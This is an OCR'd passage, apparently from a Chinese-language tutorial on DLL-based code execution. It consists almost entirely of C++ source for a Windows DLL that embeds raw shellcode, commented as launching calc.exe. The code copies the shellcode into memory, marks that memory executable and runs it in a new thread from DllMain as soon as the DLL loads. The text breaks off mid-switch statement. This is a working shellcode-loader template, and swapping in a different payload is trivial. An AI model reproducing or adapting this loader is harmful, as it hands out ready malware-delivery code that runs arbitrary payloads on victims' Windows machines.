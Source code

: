 ### 3 payload

见下方完整代码中

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Calc.exe shellcode (exit function = thread)
unsigned char payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xe0, 0x1d, 0x2a, 0x0a, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int payload_len = 276;

extern __declspec(dllexport) int Go(void);
// 定义Go函数，执行上述payload
int Go(void) {

    void * exec_mem;
    BOOL rv;
    HANDLE th;
    DWORD oldprotect = 0;
    exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(exec_mem, payload, payload_len);
    rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    if ( rv != 0 ) {
            th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
            WaitForSingleObject(th, 0);
    }
    return 0;
}

// Dll主函数
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
            // 新进程初始化操作，执行Go函数
            case DLL_PROCESS_ATTACH:
                    Go();
                    break;
            case DLL_THREAD_ATTACH:
```